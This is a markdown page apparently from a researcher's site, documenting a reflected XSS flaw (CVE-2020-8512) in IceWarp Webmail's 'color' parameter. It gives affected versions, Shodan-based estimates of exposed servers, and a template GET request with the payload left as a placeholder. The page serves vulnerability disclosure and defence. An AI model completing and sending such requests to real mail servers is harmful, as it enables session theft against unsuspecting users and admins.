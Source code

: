 ```yaml
---
title: "IceWarp <11.4.4.1 Cross-Site Scripting - CVE-2020-8512"
collection: exploits
excerpt: "In IceWarp Webmail Server through versions 11.4.4.1 and below, there is XSS in the /webmail/ color parameter.<br><br>
IceWarp is mail and collaboration server software aimed at small to mid-range businesses and as an alternative to services such as Microsoft Exchange. The XSS vulnerability in question was resolved in 11.4.4.1 of IceWarp.<br><br>
Earlier versions of the technology are vulnerable to a flaw that means an attacker can use an XSS loophole the /WebMail/ color parameter to send a malicious script to unsuspecting admins or users."
permalink: /exploit/icewarp-xss-exploit
header_extra: <meta property="og:image" content="https://lutfumertceylan.com.tr/images/icewarp-stats.jpg" />
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2020  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ <br>
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr>

# Percentage and number of vulnerable platforms:
<hr>

**How many customers does the <u>CVE-2020-8512</u> vulnerability affect?**

Icewarp is one of the most common Webmail services used by companies, so it occupies a large part of the Internet. And this vulnerability covers versions below version 11.4.4.1 of Icewarp. In other words, tens of thousands of companies still have this vulnerability and it is highly likely to be exploited by hackers. As the statistics indicate, the vulnerability affected this number of customers.

<img src="/images/icewarp-stats.jpg"/>

**Statistics about the <u>CVE-2020-8512</u>**

Today, we all know that Icewarp has more than 50 million users around the world. According to the analysis I scanned and filtered with a few search engines such as Shodan(Censys, Zoomeye etc.) and Shodan, approximately 35-thousand servers are currently using the Icewarp service. Of course, if we try to add servers that we cannot reach in search engines, I am sure that this number will double. 

When I did a research with the dorks to find out how common the vulnerability is among companies, I got the following data:

<img src="/images/icewarp-shodan.png">
<img src="/images/icewarp-shodan0.png">
<img src="/images/icewarp-shodan1.png">

<hr>

<b>GET REQUEST :</b><br>

<code>GET /webmail/?color=<b>XSS PAYLOAD</b> HTTP/1.1<br>
Host: <b>targethost</b><br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: <b>cookie</b><br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1</code>

**Vulnerable Page :**
/webmail/<br> 
**Vulnerable Parameter :**
color

--------

<ul>
<li>Exploit DB : <a href="https://www.exploit-db.com/exploits/47988">47988</a></li>
<li>National Vulnerability Database: <a href="https://nvd.nist.gov/vuln/detail/CVE-2020-8512">https://nvd.nist.gov/vuln/detail/CVE-2020-8512</a></li>
<li>IceWarp WebMail XSS Exploitation: <a href="https://www.youtube.com/watch?v=WJo3-dn3wy4">https://www.youtube.com/watch?v=WJo3-dn3wy4</a></li>
<li>A news article published in the Portswigger Daily Swig: <a href="https://portswigger.net/daily-swig/one-in-five-icewarp-mail-servers-still-vulnerable-to-pre-pandemic-security-flaw">https://portswigger.net/daily-swig/one-in-five-icewarp-mail-servers-still-vulnerable-to-pre-pandemic-security-flaw</a></li>
<li>0day.today Record: <a href="https://0day.today/exploit/description/33886">https://0day.today/exploit/description/33886</a></li>
<li>Online Scanner for CVE-2020-8512: <a href="https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512">https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512</a></li>
<ul>
